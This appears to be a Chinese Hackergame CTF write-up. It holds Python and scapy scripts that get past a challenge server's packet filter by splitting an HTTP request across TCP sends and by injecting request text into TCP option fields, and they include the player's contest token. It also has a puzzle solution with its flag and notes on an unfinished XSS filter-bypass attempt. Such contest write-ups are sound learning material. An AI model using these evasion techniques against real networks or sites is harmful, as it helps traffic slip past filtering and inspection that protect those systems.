后面了解了一下原理应该是tcp是个持续性链接，一个脚本内两次发的东西会连在一块。

而改mtu的话是更底层的做法。

```python
import socket

def send_split_post_request(host, port, path, headers, data):
    # 创建一个 TCP socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    # 第一次传输：发送请求行和部分头部
    request_part1 = "PO"
    s.sendall(request_part1.encode())
    
    request_part2 = f"ST {path} HTTP/1.1\r\n"
    for header, value in headers.items():
        request_part2 += f"{header}: {value}\r\n"

    # 第二次传输：发送剩余的头部和数据
    request_part2 += f"Content-Length: {len(data)}\r\n\r\n{data}"
    s.sendall(request_part2.encode())

    # 接收响应
    response = s.recv(4096).decode()
    s.close()
    return response

# 示例使用
headers = {
    "Host": "example.com",
    "User-Agent": "MyAgent/1.0"
}
data = "2132:MEUCIQDZh9A8FMRyArPyLTf1gmCBsVeMRlFyQuM8yzHjCMTyNwIgBH0JUa/m68yUl69XNvW4gPIVWfwp7JRWMxK98t6oXBE="

response = send_split_post_request("202.38.93.111", 18080, "/", headers, data)
print(response)
```


- 我的P

上份代码再跑了一下就出来了，很奇怪，我也不知道为什么

这条规则检测第一个字母是不是p，感觉是按int来判定的，但是我字符占两个byte？所以判定错误了

反正应该是非预期解


- 我的GET

第一小问废弃的想法用上了：在tcp包头塞GET / HTTP

但是其实不是很好塞，上网搜了一下tcp包头的结构，本来想注seq和ack字段还有dataof，发现只有9.5个字节

再看了一下就是tcp包头长度是可选的，如果更长点有个option字段，而原本正好20byte，ip也20byte，塞到option字段刚刚好凑到题目的50byte的限制。

但是这样就要自己手动构造tcp包头了。

> ### 三次握手的步骤和标志位变化：
>
> 1. **SYN发送**:
>    - **客户端** 发起连接，发送一个TCP数据包到服务器。这个数据包的TCP头部中，SYN标志位被设置为1，ACK标志位被设置为0。
>    - 客户端会选择一个序列号 `seq = x` （通常是一个随机数），用来标识这个会话的数据字节流。
> 2. **SYN和ACK响应**:
>    - **服务器** 接收到SYN包后，会发送自己的SYN包作为应答。服务器的SYN包中，SYN标志位设置为1，ACK标志位也设置为1。
>    - 服务器选择自己的序列号 `seq = y` 并将确认号 `ack = x + 1` 设置为客户端的初始序列号加1。
> 3. **ACK发送**:
>    - **客户端** 收到服务器的SYN-ACK包后，发送一个ACK包。这个ACK包的SYN标志位设置为0，ACK标志位设置为1。
>    - 客户端将确认号 `ack = y + 1` 设置为服务器的序列号加1。
>
> ### 标志位的变化：
>
> - **SYN标志位**:
>   - 在第一次握手中，客户端将SYN设置为1，表示它希望建立连接。
>   - 在第二次握手中，服务器也将SYN设置为1，作为连接建立请求的确认，并表示自己也准备好了开始通信。
>   - 在第三次握手中，SYN标志位不再使用，因为双方已经同步了各自的序列号。
> - **ACK标志位**:
>   - 在第一次握手中，客户端不设置ACK，因为它是第一次发送，没有什么要确认的。
>   - 在第二次握手中，服务器将ACK设置为1，以确认它收到了客户端的SYN。
>   - 在第三次握手中，客户端将ACK设置为1，确认它收到了服务器的SYN-ACK。

然后还有flag位在三次发送中有不同的变化，这个跟着查到的资料来就行了。

后面遇到的另一个问题就是我POST请求连续写错两次让我以为是tcp写错了查了一个多小时，把请求改成GET看什么情况得到了200的回复我才意识到是POST写错了...

**POSTbody段的结尾应该是`\r\n\r\n`，然后下面的data段不要手贱自己打个空格下去...打空格打的**

```python
from scapy.all import *

destination_ip = "202.38.93.111"
source_port = 20001
destination_port = 18082

def tcp_conversation():
    # 第一步：发送 SYN 并注入数据
    injected_data = b"GET / HTTP"  
    ip_header = IP(dst=destination_ip)
    syn = TCP(sport=source_port, dport=destination_port, flags='S')
    syn.options = [(8, injected_data)]
    syn_ack = sr1(ip_header/syn)

    # 第二步：发送 ACK 并注入数据
    ack = TCP(sport=source_port, dport=destination_port, flags='A', seq=syn_ack.ack, ack=syn_ack.seq + 1)
    ack.options = [(8, injected_data)]
    send(ip_header/ack)

    # 此时，TCP 连接已建立
    # 第三步：发送数据
    tcp_header = TCP(sport=source_port, dport=destination_port, flags=24, seq=syn_ack.ack, ack=syn_ack.seq+1)
    tcp_header.options = [(8, injected_data)]
    token = "2132:MEUCIQDZh9A8FMRyArPyLTf1gmCBsVeMRlFyQuM8yzHjCMTyNwIgBH0JUa/m68yUl69XNvW4gPIVWfwp7JRWMxK98t6oXBE="
    http_payload = f"POST / HTTP/1.1\r\nHost: example.com\r\nContent-Length: {len(token)}\r\n\r\n{token}"
    #http_payload = "GET / HTTP/1.1\r\nHost: hostname\r\n\r\n"
    #http_payload="POST / HTTP/1.1\r\nHost: 202.38.93.111:18082\r\nUser-Agent: curl/8.0.1\r\nAccept: */*\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 101\r\n\r\n2132:MEUCIQDZh9A8FMRyArPyLTf1gmCBsVeMRlFyQuM8yzHjCMTyNwIgBH0JUa/m68yUl69XNvW4gPIVWfwp7JRWMxK98t6oXBE=\r\n\r\n"
    response = sr1(ip_header/tcp_header/http_payload)
    tcp_header.show()
    # 显示响应
    if response:
        print("\nReceived response:")
        response.show()

if __name__ == "__main__":
    tcp_conversation()

```


## 异星歧途

盯了一小时才明白这东西怎么玩，线亮起来就是有电，鼠标放上去可以看到这个启动需要的条件，还有一些别的细节。

``flag{B34WarE_0f_#xp1osi0N_ad18568e94}``


第一眼是先让供电走起来。于是到了最右边的电厂来看。如果那些线亮了就是连上了。

一开始搞出了一个序列，但是要点一下其中一个动力节点才能正常供电。我当时以为这样就行了。

但是后面发现这样点了动力节点不行，但反正后三位是一定要的，前面五位随便试了一下发现点个234就行了。



所以点01110111。这一part还是随便乱按然后看下面亮了多少线来调整。


然后再看左边，微型处理器打开来有一个类似if的逻辑



所以s1=1 s2=0 s3=1 s4=0 s5=0 s6=1 s7=0 s8=1

10100101


接着看第二个的处理器，才明白原来这个processor是可以写代码的，这下终于有hackergame的感觉了，前面一直在想这题到底要干啥..= =

```
t=s1<<7
number=t
t=s2<<6
number=number+t
...
前面的等价于number=s1s2s3s4s5s6s7s8
en=0
i=0
line26: if(i>=16)goto:line33
fl0=i^2
if(fl0!=number)goto line31
en=1
goto line33
line31: i=i+1
goto line26
line33: fl1=(0==s1)
fl2=(s6==0)
fl3=(fl1 or fl2)
if(fl3 == 0) goto line38
en = 0
line38: generator1_state = en
panel1_state = en
```

一定要触发到en=1，所以要让fl0==number，且满足i<16

必须有fl3=0，又一定fl1=1，故fl2=1，即s6=0

有这个s6=0 s1=0和i<16的约束条件后写个代码跑一下就行。

```python
# Correcting the mistake and trying again

# Initialize possible values list
possible_binary_values = []

# Loop through possible values of i (from 0 to 15)
for i in range(16):
    number = i ** 2
    # Convert number to binary and take the right-most 8 bits (excluding the '0b' prefix)
    num_bin = bin(number)[2:].zfill(8)
    
    # Check conditions for s1 and s6
    s1 = int(num_bin[0])
    s6 = int(num_bin[5])
    
    # If conditions are met, append to possible_binary_values
    if s1 != 0 and s6 != 0:
        possible_binary_values.append(num_bin)

```

最终的序列是11000100


现在看第三个处理器，代码如下：（中间还点错了别的地方的逻辑处理器，还在想怎么这个代码变得那么抽象）

```
conveyor2 = s1
gate1_enable = s2
nsw3= (s3==0)
reactor1=nsw3
reactor2=nsw3
conduit1_enable = s4
conduit2_enable = s4
mixer1_enable = s5
extractor1_enable = s6
meltdown1_enable = s7
meltdown2_enable = s7
result = s8 == s9
if (result == 1) go to END

set_default_params...

END:
```

从代码可以看出来s8一定要等于s9，s9又link到隔壁的s8，所以s8=0

现在初始状态是所有东西都是0

meltdown是融毁，所以一定是0 -> s7=0

extractor肯定要抽水，所以是1，s6=1

mixer=1 -> s5=1

conduit看起来是放水的，应该设置为0，则s4=0

s3跟反应堆连在一起，先不管，看起来最后要是1

s1是阀门，已经用生命试探得到要关上了。

s2是转换器

所以应该是:10001100

但是实际情况好像是抽水抽不上来，思考了一下应该是有执行顺序，根据合理的执行顺序操作了一下就让他跑起来了。


最终答案是10100101 11000100 10001100  01110111

10100101110001001000110001110111


## 微积分计算小练习2.0

想了一个思路，但是卡在了innerhtml注入那里，结束前那个晚上玩到4点没搞出来，遂放弃，睡觉。

思路是，先用innerhtml注入，把location段变成一个可以放代码的地方。然后让其可以在url那里加入``<script></script>``标签的脚本，并用get请求访问，此时这个脚本就会被执行，然后script脚本的内容是post表单到自己，此时就有输出。

尝试了不少方法，但是都卡在xss payload的构造。

也找到了方法绕过<>的显示，可以通过\xc3\xce的方式绕过。

其他就不会了，等wp


